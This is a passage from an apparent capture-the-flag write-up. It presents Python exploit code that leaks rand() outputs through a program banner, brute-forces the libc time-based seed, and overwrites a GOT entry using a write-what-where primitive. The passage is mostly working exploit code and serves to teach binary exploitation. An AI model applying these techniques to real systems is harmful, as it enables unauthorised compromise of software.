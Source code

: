 ## Cracking Seed
We now have a looping binary and will focus on cracking the seed. Using the `ctypes` library in python to calculate `libc.time(0)`, we try all possibilities where the `0` bits are either `1` or `0`. For a stopping condition we can use some of randomly generated values in program. We can leak these by writing them to the `banner` as they will automatically be printed when banner is shown. The code can be seen below. 

```python
def crackycrack(time):
  global r
  # Obtain some random values
  rand_leaks = []
  
  libc_rand_calls_b4 = libc_rand_calls

  for i in range(3):
    what_where(AT_ENTRY, banner_bytes - exe.symbols['_start'])
    rand_leaks.append(r.recvuntil(some_banner, timeout=2)[0])

  # Crack the seed using the remote rand values
  brepr    = bin(time)[2:]
  bindices = [e for e,i in enumerate(brepr) if i == '0']
  
  for num in tqdm(range(2**len(bindices))):
    tmp = list(brepr)
    numbin = bin(num)[2:].rjust(len(bindices), '0')
    for e,j in enumerate(numbin):
      tmp[bindices[e]] = j

    test_seed = int(''.join(tmp), 2)

    libc_srand(test_seed)

    for _ in range(libc_rand_calls_b4):
      libc_rand()

    if all((libc_rand(test_seed) & 0xff) == i for i in rand_leaks):
      return test_seed
  return None
```
Updating `main` as well, we can for example write some data to the `got` entry of the `time` function:
```python
def main():
  r, time = loopyloop()
  seed = crackycrack(time)
  if not seed:
    log.info(f"Seed cracking failed.")
    return 
  log.info(f"Found seed: {hex(seed)}")

  writywrite(b'A'*8, AT_ENTRY, exe.got.time - exe.symbols['_start'])
  gdb.attach(r)

  r.interactive()
```
